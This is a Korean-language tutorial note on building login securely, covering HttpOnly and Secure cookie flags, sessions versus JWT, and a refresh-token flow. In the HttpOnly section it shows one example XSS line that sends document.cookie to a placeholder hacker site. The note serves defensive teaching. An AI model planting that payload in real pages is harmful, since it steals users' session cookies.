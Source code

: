 ## **로그인 구현하기** 

### 1. Cookie에 대한 이해 
- 쿠키는 HTTP통신을 이용하는 서버 어디에서든지 쿠키를 주고 받을 수 있으며 클라이언트에서도 쿠키에 접근하고 관리할 수 있다.
- HTTP는 기본적으로 상태정보를 기억하지 못하기 때문에, 서버는 요청자가 누구인지, 같은 사람인지 식별할 수 없다.
- 이러한 문제를 해결하기 위해, 서버는 사용자의 식별정보를 쿠키에 저장하며, 쿠키에 저장된 정보를 통해 각 사용자를 구별한다.
- 수많은 사이트들에서 민감한 개인정보를 쿠키에 저장하고 있으며, 해커들은 다양한 방법으로 이 쿠키를 탈취하고자 하므로 보안에 신경을 써야 된다.

### 2. HTTP Only Cookies

쿠키는 클라이언트에서 자바스크립트로 조회할 수 있기 떄문에, 해커들은 자바스크립트로 쿠키를 가로채고자 시도를 하게 된다. 가장 대표적인 공격 중 하나가 CSS(Cross Site Scripting)이다. 
```jsx
location.href = "http://해커사이트/?cookies=" + document.cookie;
```
해커가 이와 같은 게시물을 공개게시판에 작성할 경우, 이 게시물을 읽은 다른 사용자는 알아차리기도 전에 자신의 모든 쿠키를 해커에게 전송하게 된다.

이러한 취약점을 해결하는 방법은, 바로 브라우저에서 쿠키에 접근할 수 없도록 제한하는 것이다. 이러한 역할을 하는 것이 바로 HTTP Only Cookie이다. 개발자가 다음과 같이 간단한 접미사를 쿠키 생성코드에 추가함으로써 활성화할 수 있다.
```jsx
Set-Cookie: 쿠키명 = 쿠기값; path=/; HttpOnly
```
가장 마지막에 HttpOnly라는 접미사만 추가함으로써 HTTP Only Cookie가 활성화 되며, 위에서 말한 XSS와 같은 공격이 차단되게 된다. HTTP Only Cookie를 설정하면 브라우저에서 해당 쿠키로 접근할 수 없게 되지만, 쿠키에 포함된 정보의 대부분이 브라우저에서 접근할 필요가 없기 때문에 HTTP Only Cookie는 기본적으로 적용하는 것이 좋다.

### 3. Secure Cookies
HTTP Only Cookie를 이용하면 Client에서 Javascript를 통한 쿠키 탈취문제를 예방할 수 있다. 하지만 Javascript가 아닌 네트워크를 직접 감청하여 쿠키를 가로챌 수 있다. 이러한 통신상의 정보유출을 막기위해 HTTPS 프로토콜을 사용하여 데이터를 암호화하는 방법이 주로 사용되고 있다. HTTPS를 사용하면 쿠키 또한 암호화되어 전송되기 때문에, 제 3자는 내용을 알 수 없다.

문제는 HTTPS로 전송되어야 할 정보가, 개발자의 부주의로 HTTP를 통해 유출되는 경우가 있다. 예를 들어 개발자가 다음과 같은 코드를 실수로 작성할 수 있다.
```jsx
<img src="http://www.example.com/images/logo.png" />
```
브라우저는 http://로 시작되는 위 코드를 만나면 암호화되지 않은 상태로 쿠키를 서버로 전달하게 됩니다. 해커는 이 암호화되지 않은 요청정보를 가로채서 쿠키를 탈취하게 됩니다.

이러한 사고를 방지하는 방법은 쿠키를 생성할 때 secure 접미사를 사용하는 것이다.
```jsx
Set-Cookie: 쿠키명=쿠키값; path=/; secure
```
위와 같이 마지막에 secure라는 접미사를 사용하여 쿠키를 생성하면, 브라우저는 HTTPS가 아닌 통신에서는 쿠키를 전송하지 않는다.

### 4. Session vs JWT(Json web Token)

**1.Sesstion(세션)**
- 전통적으로 많이 사용되어 온 방식으로, 서버 기반 인증방법이다.
- 세션 id를 사용해서 어떤 사용자가 서버에 로그인 되어있음이 지속되는 상태를 '세션'이라고 한다.
1. 사용자가 로그인에 성공하면 세션을 발행한다.
2. 그 세션을 브라우저에도 저장하고 서버 메모리에도 저장한다.
3. 인가가 필요한 요청을 보낼 때 서버에 세션값을 같이 보냄
4. 서버는 메모리에 저장된 값과 세션값을 비교해서 맞는 값이 있으면 성공

**단점은?**
- 세션이 서버에 저장되어 있기 때문에 사용자가 동시 다중 접속할 떄 메모리가 부족해진다.
- 확장성 부분에서 분산된 서버의 경우 세션 유지가 제대로 안되기 때문에 서버 확장이 어렵다.

**2. JWT (JSON Web Token)**
- 사용자가 로그인을 하면 토큰을 주는데, 이 토큰을 서버가 기억하고 있지는 않는다.(stateless)
- 세션을 대체하지 못하는 이유는 모든 사용자의 상태를 기억하고 있지 않는다.
- JWT는 이미 제공한 토큰을 뺏을 수 없어서 해커에게 토큰을 빼앗겨도 톸느을 무효화할 방법이 없음 => accessToken, refreshToken 두개의 토큰을 제공해야 한다.

### JWT 예제
1. [프론트엔드] ID와 비밀번호를 준다.

2. [백엔드] ID와 비밀번호를 검증하고 AccessToken과 RefreshToken, AccessToken의 만료시간을 반환해준다. 이 때 생성한 RefreshToken은 DB에 {ID,RefreshToken}으로 저장한다.

3. [프론트엔드] 반환받은 AccessToken을 매 api 호출마다 헤더에 붙여서 전송한다.

4. [백엔드] api호출시 헤더의 AccessToken을 확인하고 유효한지, 만료기간이 지났는지를 체크 후 api를 동작시킨다.

5. [프론트엔드] AccessToken의 만료 기간이 지나거나, 30초 미만으로 남았다면, 백엔드에 RefreshToken을 붙여 Reissue 요청을 보낸다.

6. [백엔드] Reissue요청이 들어올 경우, RefreshToken이 DB에 있는 것인지 확인한 후, 맞다면 AccessToken과 새로운 AccessToken 만료 시간을 반환한다.

7. [프론트엔드] Reissue결과 반환된 AccessToken과 만료기간을 저장하여 다음 api호출에 사용한다.

### 참고
1. <a href="https://velog.io/@yaytomato/%ED%94%84%EB%A1%A0%ED%8A%B8%EC%97%90%EC%84%9C-%EC%95%88%EC%A0%84%ED%95%98%EA%B2%8C-%EB%A1%9C%EA%B7%B8%EC%9D%B8-%EC%B2%98%EB%A6%AC%ED%95%98%EA%B8%B0#-%EB%A1%9C%EA%B7%B8%EC%9D%B8%EC%9D%80-%EC%96%B4%EB%96%BB%EA%B2%8C-%EC%9D%B4%EB%A3%A8%EC%96%B4%EC%A7%80%EB%82%98">https://velog.io/@yaytomato/</a>
2. https://nsinc.tistory.com/121
